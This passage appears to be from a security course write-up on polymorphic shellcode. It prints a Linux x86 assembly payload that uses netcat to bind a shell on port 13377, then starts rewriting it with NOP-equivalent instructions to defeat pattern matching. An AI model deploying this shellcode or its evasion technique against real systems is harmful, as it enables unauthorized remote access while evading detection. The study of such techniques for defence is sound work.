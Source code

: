 Original Size: 33 bytes
Final Size: 39 bytes

Increment: 19%

#### Netcat Shellcode (Shellcode #3)

Finally, the third shellcode from the three will be one that performs a bind shell connection in port 13377 through the netcat application. It can be found [here](http://shell-storm.org/shellcode/files/shellcode-804.php). 


###### Original code:

```term
section .text
    global _start
_start:
xor eax,eax
xor edx,edx
push 0x37373333
push 0x3170762d
mov edx, esp
push eax
push 0x68732f6e
push 0x69622f65
push 0x76766c2d
mov ecx,esp
push eax
push 0x636e2f2f
push 0x2f2f2f2f
push 0x6e69622f
mov ebx, esp
push eax
push edx
push ecx
push ebx
xor edx,edx
mov  ecx,esp
mov al,11
int 0x80
```

Similarly to the techniques implemented within the previous shellcode, we will insert NOP equivalents which will difficult pattern matching. Nevertheless, these won't change 
execution at all!

###### Final code:

```term
; Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-804.php

global _start

_start:

       sahf                    ; NOP Equivalent.
       nop                     ; NOP Equivalent.
       cmc                     ; NOP Equivalent.

       xor eax,eax             ; Zeroes out EAX.
       mul edx                 ; Zeroes out EDX through mul. NOP Equivalent.
       push eax                ; NOP Equivalent.
       pop edx                 ; NOP Equivalent.
       push edx                ; NOP Equivalent.
       pop eax                 ; NOP Equivalent.

```